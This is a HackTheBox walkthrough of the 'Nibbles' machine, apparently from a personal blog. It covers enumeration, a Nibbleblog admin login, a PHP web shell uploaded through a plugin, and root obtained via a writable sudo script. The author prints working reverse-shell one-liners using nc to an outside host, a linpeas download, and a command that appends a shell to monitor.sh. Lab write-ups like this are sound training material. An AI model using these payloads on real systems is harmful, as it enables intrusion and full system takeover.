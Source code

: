 ```yaml
---
title: 🟢 HTB - Nibbles
date: 2022-10-02
categories: [HackTheBox, Machines]
tags: [gobuster, cewl]
description: Write up of the Nibbles box from HackTheBox.
---
```


Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

> For this writeup I will say that the IP adresses are the following:
>
> - **attack machine** is `10.10.10.1`
>
> - **target machine** is `10.10.10.2`
>   {: .prompt-warning }

## Enumeration

Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:

```bash
nmap -sV --open 10.10.10.2
```

We quickly see two open ports:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start another scan, a full one this time, to be sure to not miss any unusual port:

```bash
nmap -sV -p- 10.10.10.2
```

While the full scan is running we can check the two known open ports with the defaults nmap scripts:

```bash
nmap -sC -p 22,80 10.10.10.2
```

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:

```bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
```

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:

```bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]
```

Many directories found here!

After looking at each here are the interesting ones for now:

- admin/ -> Many files here
- admin.php -> login form
- content/ ->
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:

```php
<?php system('id'); ?>
```

Now if we cURL the good URL:

```bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation

- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !
